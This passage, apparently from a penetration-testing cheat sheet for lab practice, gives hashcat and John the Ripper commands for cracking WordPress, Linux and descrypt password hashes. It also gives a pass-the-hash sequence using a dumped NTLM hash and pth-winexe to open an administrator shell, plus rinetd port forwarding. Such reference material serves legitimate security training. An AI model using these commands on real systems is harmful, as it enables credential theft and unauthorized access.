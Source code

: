    `hashcat --force -m 500 -a 0 -o found1.txt --remove puthasheshere.hash /usr/share/wordlists/rockyou.txt`
   
   Wordpress sample hash: $P$B55D6LjfHDkINU5wF.v2BuuzO0/XPk/
   
   Wordpress clear text: test
   
   Hashcat example cracking Wordpress passwords using rockyou:
   
  `hashcat --force -m 400 -a 0 -o found1.txt --remove wphash.hash /usr/share/wordlists/rockyou.txt`
 
    -   Sample Hashes  
        [*http://openwall.info/wiki/john/sample-hashes*](http://openwall.info/wiki/john/sample-hashes)
 
    -   Identify Hashes  
   
        `hash-identifier`
 
    -   To crack linux hashes you must first unshadow them:  
   
        `unshadow passwd-file.txt shadow-file.txt  `
        `unshadow passwd-file.txt shadow-file.txt > unshadowed.txt`
 
-   John the Ripper - Password Hash Cracking
 
    -   `john $ip.pwdump`
 
    -   `john --wordlist=/usr/share/wordlists/rockyou.txt hashes`
 
    -   `john --rules --wordlist=/usr/share/wordlists/rockyou.txt`
 
    -   `john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt`
 
    -   JTR forced descrypt cracking with wordlist  
   
        `john --format=descrypt --wordlist  /usr/share/wordlists/rockyou.txt hash.txt`
 
    -   JTR forced descrypt brute force cracking  
   
        `john --format=descrypt hash --show`
 
-   Passing the Hash in Windows
 
    -   Use Metasploit to exploit one of the SMB servers in the labs.
        Dump the password hashes and attempt a pass-the-hash attack
        against another system:  
         
        `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896 `
         
        `pth-winexe -U administrator //$ip cmd`
 
<span id="_6nmbgmpltwon" class="anchor"><span id="_Toc480741823" class="anchor"></span></span>Networking, Pivoting and Tunneling
================================================================================================================================
 
-   Port Forwarding - accept traffic on a given IP address and port and
    redirect it to a different IP address and port
 
    -   `apt-get install rinetd`
 
    -   `cat /etc/rinetd.conf  `
        `\# bindadress bindport connectaddress connectport `
        `w.x.y.z 53 a.b.c.d 80`
 